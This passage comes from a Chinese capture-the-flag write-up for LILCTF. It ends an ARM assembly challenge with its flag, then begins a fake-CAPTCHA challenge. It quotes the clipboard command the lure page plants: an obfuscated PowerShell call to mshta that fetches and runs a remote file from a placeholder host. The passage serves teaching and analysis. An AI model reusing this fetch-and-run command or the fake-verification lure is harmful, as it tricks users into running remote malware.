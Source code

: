 执行脚本即可获得 Flag:

![](images/arm_asm-8.webp)

得到 Flag 为: `LILCTF{ez_arm_asm_meow_meow_meow_meow_meow_meow}`

### 1'M no7 A rO6oT

打开网站点开验证可发现以下内容:

![](images/captcha-1.webp)

可猜测为 PowerShell 代码执行风险代码 ~~(我手上没有 Windows 环境也测不了)~~，粘贴可看到以下代码:

```shell
powershell . \*i*\\\\\\\\\\\\\\\*2\msh*e http://<HOST>/Coloringoutomic_Host.mp3   http://<HOST>/Coloringoutomic_Host.mp3 #     ✅ Ι am nοt a rοbοt: CAPTCHA Verification ID: 10086
```
